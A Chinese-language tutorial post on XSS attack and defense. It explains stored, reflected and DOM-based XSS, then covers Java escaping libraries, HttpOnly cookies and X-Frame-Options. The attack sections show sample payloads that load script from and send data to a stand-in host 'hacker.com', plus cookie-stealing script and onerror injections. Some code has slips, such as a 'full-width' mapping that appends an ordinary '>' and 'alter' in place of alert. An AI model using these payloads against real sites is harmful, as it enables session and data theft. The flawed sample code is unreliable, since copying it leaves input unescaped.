 ```yaml
---
title: "08 XSS攻防"
date: 2024-01-01T10:37:34+08:00
categories: ["Web安全和加速"]
tags: ["网络安全","技巧"]
draft: false
code:
  copy: true
toc:
  enable: true
---
```


> `XSS（Cross Site Script）`为跨站脚本攻击，取首字母简写为避免和`CSS`冲突而命名。**攻击者通常会向页面嵌入恶意脚本代码，当用于访问时会出发该脚本执行形成攻击。**
>
> **`XSS`的本质就是数据和脚本没有分离，界限混淆，缺少区分处理，使得浏览器渲染数据的同时将脚本一并执行了。**
>
> `XSS`一般可以分为三类：
>
> - 存储型XSS
> - 反射型XSS
> - DOM型XSS

## 一、存储型XSS

> 存储型XSS，是指攻击者利用网页的输入功能，将恶意脚本持久化在服务端，当任意用户访问页面导致该数据被渲染时，恶意脚本便会被浏览器执行，从而形成攻击获取用户本地信息。

攻击者可以利用<script>标签做攻击脚本，填写在某个页面的用户数据收集处，比如填写下方内容，其中 xxx.js 就包含了恶意代码。

```html
<script src="http://hacker.com/script/xxx.js"/>
```

```javascript
const xhr = new XMLHttpRequest();
xhr.open('GET', 'http://hacker.com/collectionInfo', true);
xhr.send();
```

上述植入逻辑中的异步请求，在浏览器的同源策略保护下，**可能会出现跨域问题**。此时可以考虑使用一些`DOM`元素的特性来**绕过同源策略**，比如 Image 元素。

```html
<script src="http://hacker.com/script/xxx2.js"/>
```

```javascript
(function() {
   (new Image()).src= 'http://hacker.com/collectionInfo';
});
```

## 二、反射型XSS

> 反射型XSS，是指攻击者不会将恶意脚本持久化在服务端，而是构造一些恶意连接诱导正常用户访问，这类`XSS`的特性是需要和正常用户产生交互。与DOM型XSS的区别是攻击的链接实际上是一些服务端请求链接。

比如对于一个请求链接：http://www.normal.com/get?uid=，正常使用的时候，实际上 uid 参数会带上用户的身份标识。攻击者利用这个链接，往往会构造出恶意执行脚本拼接在参数后方，比如：http://www.normal.com/get?uid=<script>alert(document.cookie)</script>，只要诱导用户点击来这个链接，则可以窃取用户的登录 cookie 信息。

## 三、DOM型XSS

> DOM型XSS，是一种特殊的反射型XSS，这种类型的`XSS`是利用了`DOM`标签的一些特性，并且不需要和服务端通信。

比如对于一个页面访问请求：http://www.normal.com/user.html?uid=，正常使用的时候，实际上 uid 参数会带上用户的身份标识。

攻击者可以利用这个链接，构造一个虚假的DOM元素出来，比如：http://www.normal.com/user.html?uid=<input type="button" value="登录" onClick="alter(document.cookie)"/>，也可以不需要和用户交互的：http://www.normal.com/user.html?uid=\<img src='notFound.jpg' onerror="alter(document.cookie)"/>

## 四、防护策略

> `XSS`攻击的防护策略主要就是针对其本质做对应的加固，也即，将数据和脚本做区分，对于疑似脚本的数据做转义处理

1. 在网关或者过滤器等请求流量入口处，做参数合法性校验（长度或特殊字符），以及针对特殊字符的转义处理。

   ```java
   // 方式一：自定义处理方式，将特殊字符映射为全角字符（输入）
   public static String xssEncoding(String param) {
       if (param == null || param.isEmpty()) {
           return param;
       }
       StringBuilder sb = new StringBuilder(param.length() + 16);
       for(int i=0; i < param.length(); i++) {
           char c = param.charAt(i);
           switch (c) {
               case '>':
                   sb.append('>'); // 全角大于号
                   break;
               // etc.
           }
       }
       return sb.toString();
   }
   ```

   ```java
   // 方式二：借助第三方库做特殊字符转义（输入）
   /**
    * <groupId>org.owasp.antisamy</groupId>
    * <artifactId>antisamy</artifactId>
    */
   public class XssEncoder {
       private static Policy policy = null;
       
       static {
           String path = XssEncoder.class.getClassLoader().getResource("antisamy-anythinggoes.xml").getFile();
           if (path.startsWith("file")) {
               path = path.substring(6);
           }
           try {
               policy = Policy.getInstance(path);
           } catch (Exception e) {
               throw new RuntimeException(e);
           }
       }
       
       public static String xssEncode(String param) {
           AntiSamy antiSamy = new AntiSamy();
           try {
               Clean Results cr = antiSamy.scan(param, policy);
               // 输出安全的 HTML
               return cr.getCleanHTML();
           } catch (Exception e) {
               throw new RuntimeException(e);
           }
       }
   }
   ```

   ```java
   // 方式三：借助第三方库做特殊字符转义（输入）
   /**
    * <groupId>org.apache.commons</groupId>
    * <artifactId>commons-text</artifactId>
    */
   public class XssEncoder {
       public static String xssEncode(String param) {
           // return StringEscapeUtils.escapeJson(param);
           // return StringEscapeUtils.escapeEcmaScript(param);
           return StringEscapeUtils.escapeHtml4(param);
       }
   }
   ```

   ```java
   // 方式四：借助第三方库做特殊字符转义（输出）
   /**
    * <groupId>org.owasp.esapi</groupId>
    * <artifactId>esapi</artifactId>
    */
   ```

2. 为响应的`Cookie`设置只读属性（如果是`SpringBoot`项目，属性`server.servlet.session.cookie.http-only`默认就是`true`开启的），或者为响应资源禁用`iframe`策略

   ```java
   // 设置 cookie 只读属性的方式
   response.setHeader("SET-COOKIE", "JSESSIONID=" + request.getSession().getId() + "; HttpOnly");
   // 设置响应对于 iframe 的策略（SAMEORIGIN表示同域名下可以挂iframe；DENY表示不允许；ALLOW-FROM uri表示指定uri的地址可以挂）
   response.setHeader("x-frame-options", "SAMEORIGIN");
   ```

   ```nginx
   // 设置响应对于 iframe 的策略
   add_header X-Frame-Options SAMEORIGIN;
   ```

   

